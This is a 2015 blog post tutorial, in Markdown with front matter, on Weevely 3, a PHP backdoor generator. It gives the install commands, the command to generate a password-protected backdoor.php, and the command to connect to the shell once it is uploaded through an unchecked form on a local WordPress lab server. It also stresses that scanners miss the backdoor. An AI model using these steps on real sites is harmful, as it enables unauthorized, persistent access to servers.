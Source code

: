 ```yaml
---
author: Mansoor A
date: "2015-03-17T09:05:00Z"
description: ""
draft: false
title: Weevely 3 - The Tiny Yet Dangerous PHP Shell
url: blog/weevely-3-tiny-yet-dangerous-php-she
---
```



> DISCLAIMER: Whatever discussed here is for educational purposes and to protect yourselves from such attacks. I'm in no way responsible for whatever damage you cause to anyone or anything by following the things discussed here.


### Weevely?

Weevely is a php backdoor generator. One of the cool thing ( or should I say troubling thing - from a sysadmin's perspective ) about it is that, it is not detected by most of the malware scanners ( To be honest, I scanned such a shell using virus total, and none of them detected it as a malware )

This is a good thing for a cracker and it is a troubling thing for  a Sysadmin.

#### How does crackers use this backdoor to maintain access?

Here is the thing, you can use this shell to maintain access to an already hacked website, or you can use this to hack a website ( if it provides an option to upload files without checking what exactly is being uploaded ).

The crackers finds a way to upload a shell to your server and then BAM!. They have access to all your files. OR, a cracker hacks your site somehow ( bruteforce, social engineering, or whatever) and upload theses shells to various parts of your website, so that even if you found one of these shell and delete it, they can access your server using another one.


### How about a practical example?
Here, I will show you how it is done. Please note that I am doing this in a locally set up web server, but the principle is same for all the web servers. Also, please do this only on the sites you own, or in those you are allowed to perform such actions.


### The Setup

1. I have an Ubuntu server running on this IP: 192.168.1.102
2. There is WordPress installation, and also an upload form where you can upload files
3. I'm using Backbox Linux as the attacking machine. You can use any Linux machines for this purpose. Kali, Backtrack, Ubuntu, Mint or whatever it is that you're using.

#### Step 1: Installing Weevely 3 on your machine:
```shell
# Make sure that the python package manager and yaml libraries are installed
$ sudo apt-get install g++ python-pip libyaml-dev python-dev
# Install requirements
$ sudo pip install prettytable Mako pyaml dateutils --upgrade
```

Now, download  weevely 3 from <a href="https://github.com/epinna/weevely3/archive/master.zip" target="_blank">HERE</a><br /> You can find more information about Weevely 3 from the github page: <a href="https://github.com/epinna/weevely3" target="_blank">HERE</a>


We are all set. Now, unzip the package and open the terminal and change directory to the weevely3 directory.
If you are too lazy to do all that, copy and paste the following command in your terminal.


```shell
wget https://github.com/epinna/weevely3/archive/master.zip
unzip master.zip
cd weevely3-master
```



#### Step 2: Creating the backdoor
If you do an "ls" command inside the weevely directory, you could see all the files, and weevely.py is the python script that we will be executing

This is how you create a backdoor:


```shell
# This will show you all the options you got
$ ./weevely.py

# The following command will generate a backdoor 
$ ./weevely.py generate password backdoor.php

# The above command will create a backdoor named "backdoor.php" with a password "password"
```


Now we have our backdoor. The next step is to upload it to the web server.


#### Step 3: Getting things done - Uploading to the server

For this to work, you need a place where you can upload any files ( since you are testing it in your own workstation, that shouldn't be  a problem. 😉 )

{{< figure src="php_uploader.jpeg" alt="php uploader" caption="<em>Php uploader</em>" class="border-0" >}}

Here, check it out. I have an upload form and I have uploaded the generated backdoor ( shell.php ) to the server using this upload form.

#### Step 4: Accessing the shell

Now we have a backdoor in a server. We need to access it right?

```shell
# This is how you access the uploaded shell
$ ./weevely http://the-website.tld/path/to/the/backdoor.php password

# of course you will have to replace the path with the actual path to the uploaded shell,
# and you have to provide the password you previously set when created the shell.

# So, In my example, I will access the shell using the following command

$ ./weevely http://192.168.1.102/wordpress/hackme/shell.php noob

# where "noob" is my password and 192.168.1.102/wordpress/hackme/shell.php is the
# location of the shell in the server.
```


As soon as you issue the above command, you will get access to a shell in the server.


{{< figure src="shell.jpeg" alt="Shell" caption="<em>Shell</em>" class="border-0" >}}


Type any command like "ls" and you can see that you are using the shell in the server. But, hey, remember one thing, you got a shell in the server, but you are not root ( yet ). You don't have administrative privileges, but you can manipulate the contents in the document root of apache, which is pretty nice.

{{< figure src="shell_1.jpeg" alt="Shell" caption="<em>shell</em>" class="border-0" >}}

So, this is it. Hope you guys enjoyed this post. Keep one thing in mind, please don't do any of these on anything that you do not own. Thank you.!


